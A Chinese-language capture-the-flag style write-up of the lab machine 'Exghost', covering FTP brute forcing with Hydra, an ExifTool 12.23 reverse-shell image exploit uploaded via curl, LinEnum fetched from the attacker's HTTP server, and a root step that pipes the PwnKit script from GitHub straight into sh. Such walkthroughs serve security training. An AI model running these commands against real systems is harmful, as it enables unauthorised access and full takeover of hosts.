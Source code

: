 ```yaml
---
description: Easy - Linux：ExifTool 12.23
---
```


# ✔️ Exghost

## 建立立足点

### 信息枚举

使用Nmap对目标进行开放端口扫描，获得2个开放端口：

<figure><img src="../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

首先对80端口的Web网页进行检查，无收获：

<figure><img src="../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后尝试以Anonymous身份登录FTP服务，也没有收获。因此，尝试使用暴力破解，获得登录凭证：<mark style="color:red;">**user:system**</mark>

```bash
// 用Hydra对目标FTP进行暴力破解尝试
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.183 -V
```

<figure><img src="../.gitbook/assets/3 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

登录FTP后获取到一个backup文件，将它下载到kali本地后，发现它是一个PCAP文件，用Wireshark打开并查看其HTTP流相关数据包：

{% hint style="info" %}
本例中关于目标FTP服务开启了被动模式，因此登录后并不能下载目标文件，需要关闭这个被动模式，才能成功下载。

<img src="../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

```bash
// 登录FTP后，直接输入：
passive
```
{% endhint %}

<figure><img src="../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
// FTP服务中：
get backup
// Kali本机中，检查该文件的属性：
file backup
```

### 漏洞查找

使用Wireshark打开backup文件后，过滤HTTP数据包，发现了：

* <mark style="color:red;">**/exiftest.php**</mark>：一个上传图片的路径
* 已成功上传了一个testme.jpg的图片
* 使用的是<mark style="color:red;">**ExifTool**</mark>，其版本号为：<mark style="color:red;">**12.23**</mark>

<figure><img src="../.gitbook/assets/7 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

尝试查找ExifTool 12.23的公开已知漏洞，发现确实有一个任意代码执行的漏洞，将其下载后发现是一个用于将反弹shell的payload写入一个jpg文件的脚本：

```bash
searchsploit exiftool 12.23
```

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```
// 将利用脚本下载到Kali本地：
searchsploit -m 50911.py .
// 查看其使用方法：
python3 50911.py -h
// 制作payload，得到名为image.jpg的图片文件:
python3 50911.py -s 192.168.45.200 4444
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

首先在Kali本机监听与payload对应的端口：4444

```bash
// Kali本机：
nc -lvnp 4444
```

然后将制作好的payload（image.jpg）上传到目标，等待反弹回来的shell：

```bash
// 在payload所在的文件夹
curl -v -F myFile=@image.jpg http://192.168.160.183/exiftest.php
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功获得反弹shell，并查找到local.txt文件：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息收集

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

当手动枚举无明确收获时，可使用工具进行枚举，如：

* LinEnum.sh
* LinPEAS.sh

本例使用LinEnum.sh，在Kali本机开启一个简易的服务器，将脚本传到目标上，直接运行该脚本：

```bash
// Kali本机：
python3 -m http.server
// 目标主机：
curl http://192.168.45.220:8000/LinEnum.sh -o linenum.sh
chmod +x linenum.sh
./linenum.sh
```

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

本例中，我是直接尝试搜索目标系统内核版本的相关漏洞，发现有可能可以尝试利用的脚本，所以直接root了。个人感觉LinPEAS.sh相较于LinEnum.sh来说更详细和高效，推荐用LinPEAS.sh来进行本地信息枚举。

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

找到本例中的目标系统易受内核漏洞CVE-2021-4034的攻击，同时找到其GitHub上的可利用脚本<mark style="color:red;">**PwnKit.sh**</mark>&#x20;

{% hint style="info" %}
MEMO.

* [https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)
* [https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------](https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------)
{% endhint %}

### ROOT

开箱即用，一键root：

```bash
sh -c "$(curl -fsSL http://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
